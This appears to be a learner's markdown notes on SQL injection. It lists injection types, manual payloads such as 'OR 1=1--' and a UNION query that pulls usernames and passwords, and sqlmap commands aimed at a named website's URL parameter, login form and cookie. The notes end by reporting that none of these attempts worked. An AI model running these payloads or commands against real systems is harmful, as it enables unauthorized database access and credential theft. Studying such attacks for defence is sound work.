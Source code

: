 # Sql injection

 It means attacker can access website's database using query related with perticular database.Mostly I used sqlmap tool for that
purpose.

 Types of sql injection:
1)error based sql injection 2) union based sql injection
3) boolean based sql injection 4) time based sql injection
<html>
  <head> sql injection</head>
  <body> <img src="https://avinetworks.com/wp-content/uploads/2020/04/sql-injection-attack-diagram.png" > </img>
  </body>
  </html>
  
# Steps

  Manual way:
  
   1) Add OR 1=1-- this with parameter value, It gives true result always if parameter value             is wrong also. If this work, then there might be sql injection.
    
   2) For retrive the data use query like " ' UNION SELECT username, password FROM users-- "
      with parameter value.

   3) This are different for different database, For more information reffer            https://portswigger.net/web-security/sql-injection/cheat-sheet
   
   Automate way:
 
  1) First install sqlmap.py from https://github.com/sqlmapproject/sqlmap .
  2) visit http://magnus.jalatechnologies.com/bundles/styles?v=lPGPuSt_xKxNmptTCKJ8QNFrLXCkhCS7B-5FH-7RYpA1.
  3) Perform sql injectionfrom parameter v.
  4) python3 sqlmap.py -u "http://magnus.jalatechnologies.com/bundles/styles?v=lPGPuSt_xKxNmptTCKJ8QNFrLXCkhCS7B-5FH-7RYpA1*" -p v
  5)Not found anything, then try for post request,In username and password parameter.
  6) python3 sqlmap.py -u "http://magnus.jalatechnologies.com//Account/Login" --data "UserName=*&Password=*"
  7) Not found anything,Try in http header.
  8) python3 sqlmap.py -u http://magnus.jalatechnologies.com/ --cookie "Cookie=*"
  9) It also not working.
